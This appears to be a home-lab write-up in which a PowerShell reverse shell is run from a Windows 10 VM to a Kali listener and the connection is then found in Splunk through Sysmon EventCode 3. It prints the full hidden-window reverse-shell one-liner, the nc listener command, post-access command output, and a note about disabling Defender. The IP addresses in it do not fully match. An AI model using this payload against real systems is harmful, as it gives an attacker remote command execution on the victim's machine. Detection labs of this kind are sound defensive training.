 # 🎯 C2 Payload: Reverse Shell Simulation

## Objective
Simulate a basic reverse shell attack from the **Victim (Windows 10)** machine to the **Attacker (Kali)**, and monitor the connection using **Splunk + Sysmon** on the **Defender (Ubuntu)**.

---

## 🧪 Lab Details

| Role     | OS           | IP Address     |
|----------|--------------|----------------|
| Attacker | Kali Linux   | `192.168.0.11` |
| Victim   | Windows 10   | `192.168.0.12` |
| Defender | Ubuntu (Splunk) | `192.168.0.10` |

---

## 🛠️ Payload Used (PowerShell Reverse Shell)

Executed from the **Victim** machine (PowerShell):

```powershell
powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.0.13',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"
```
Note: Defender blocked it initially. Real-time protection was temporarily disabled in Windows Security for testing.

## 🖥️ Kali Listener Setup

On the Attacker machine (Kali):
nc -lvnp 4444

Successfully received incoming shell from Victim:
connect to [192.168.0.13] from (192.168.0.12) 49280
<details>
<summary>🖼️ Session Connection</summary>

![Screenshot 2025-04-25 124346](https://github.com/user-attachments/assets/c15da569-4be4-4ddd-9196-e2b718d1eba4)

</details>



<details>
  <summary>📄 Session Output (Click to Expand)</summary>

**Command:** `whoami`  
**Output:**
victim-win\vboxuser

---

**Command:** `hostname`  
**Output:**
Victim-Win

---

**Command:** `ipconfig`  
**Output:**
Ethernet adapter Ethernet: IPv4 Address. . . . . . . . . . . : 10.0.2.15 Default Gateway . . . . . . . . . : 192.168.0.1

Ethernet adapter Ethernet 2: IPv4 Address. . . . . . . . . . . : 192.168.0.12 Default Gateway . . . . . . . . . : 192.168.0.1

---

**Command:** `systeminfo`  
**Output:**
Host Name:                 VICTIM-WIN
OS Name:                   Microsoft Windows 10 Enterprise Evaluation
OS Version:                10.0.19045 N/A Build 19045
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00329-20000-00001-AA947
Original Install Date:     4/19/2025, 2:30:44 PM
System Boot Time:          4/25/2025, 7:25:04 AM
System Manufacturer:       innotek GmbH
System Model:              VirtualBox
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 151 Stepping 2 GenuineIntel ~3187 Mhz
BIOS Version:              innotek GmbH VirtualBox, 12/1/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     4,096 MB
Available Physical Memory: 1,404 MB
Virtual Memory: Max Size:  5,504 MB
Virtual Memory: Available: 1,930 MB
Virtual Memory: In Use:    3,574 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              \\VICTIM-WIN
......

---

**Command:** `dir`  
**Output:**
Mode                 LastWriteTime         Length Name                                                                 
====                 =============         ====== ====                                                                
d-r---         4/19/2025   2:30 PM                3D Objects                                                           
d-r---         4/19/2025   2:30 PM                Contacts                                                             
d-r---         4/22/2025   4:01 PM                Desktop                                                              
d-r---         4/19/2025   2:30 PM                Documents                                                            
d-r---         4/19/2025   7:56 PM                Downloads                                                            
d-r---         4/19/2025   2:30 PM                Favorites                                                            
d-r---         4/19/2025   2:30 PM                Links                                                                
d-r---         4/19/2025   2:30 PM                Music                                                                
d-r---         4/19/2025   2:32 PM                OneDrive                                                             
d-r---         4/19/2025   2:32 PM                Pictures                                                             
d-r---         4/19/2025   2:30 PM                Saved Games                                                          
d-r---         4/19/2025   2:32 PM                Searches                                                             
d-r---         4/19/2025   2:30 PM                Videos           

---

**Command:** `cd Desktop`  
**Command:** `echo You Have been Hacked > hacked.txt`  
<details>
<summary>🖼️ Hacked file</summary>

![Screenshot 2025-04-25 143943](https://github.com/user-attachments/assets/d1c6573f-c40f-4cc7-a46d-9d2b085865c5)

</details>
**Command:** `dir`  
**Output:**
    Directory: C:\Users\vboxuser\Desktop


Mode                 LastWriteTime         Length Name                                                                 
====                ==============         ====== ====                                                                
d-----         4/22/2025   4:05 PM                sysmon-config-master                                                 
-a----         4/25/2025  12:51 PM              0 hacked.txt                                                           
-a----         4/19/2025   4:34 PM           2348 Microsoft Edge.lnk                                                   
-a----         4/19/2025   7:37 PM        1118208 sysmon_logs.evtx      
</details>

## 🔍 Detection via Splunk (EventCode 3)
Logged and verified the following:
```
index=sysmon EventCode=3 DestinationPort=4444
| table _time, Image, User, DestinationIp, DestinationPort
```
✅ Observed PowerShell creating a TCP connection to Kali on port 4444.
<details>
<summary>🖼️ TCP connection Event</summary>

![Screenshot 2025-04-25 140538](https://github.com/user-attachments/assets/28aec82d-ae51-4fc1-9b1f-3031f59ddddb)

</details>



